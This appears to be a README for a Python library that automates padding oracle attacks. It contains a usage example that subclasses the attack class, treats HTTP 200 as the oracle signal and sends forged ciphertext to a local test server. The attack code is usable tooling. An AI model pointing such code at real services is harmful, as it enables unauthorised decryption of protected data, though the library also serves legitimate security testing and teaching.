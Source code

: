 a library for padding oracle attack
---

Payload_model is a abstract class handling all details of padding oracle attack algorithm.
You should specify a subclass of payload_model and change some import methods. You can customize it to fit different environment.

basic usage
---
```python
from padding_oracle_attack import payload_model
import grequests
from grequests import request

class payload(payload_model):
    def padding_ok(self, resp:Response):
        if resp.status_code == 200:
            return True
        else:
            return False

    def recover_fake_data(self, req:Request, fake_datas):
        for fake_data in fake_datas:
            if bytes.hex(fake_data) in req.url:
                return fake_data
        return None

    def make_request(self, fake_data) -> request:
        params = {
                "data": bytes.hex(fake_data)
            }

        return request("get", "http://127.0.0.1:5000", params=params)

if __name__ == "__main__":
    m = payload("3a10f84900818b1c439430600524fb0f00000000000000000000000000000000")
    m.run()
```
![record](https://github.com/lcark/padding_oracle_attack/raw/main/media/padding_snap.GIF)

result picture
---

![result](https://github.com/lcark/padding_oracle_attack/raw/main/media/result.png)

install
---
```bash
pip install padding-oracle-attack
```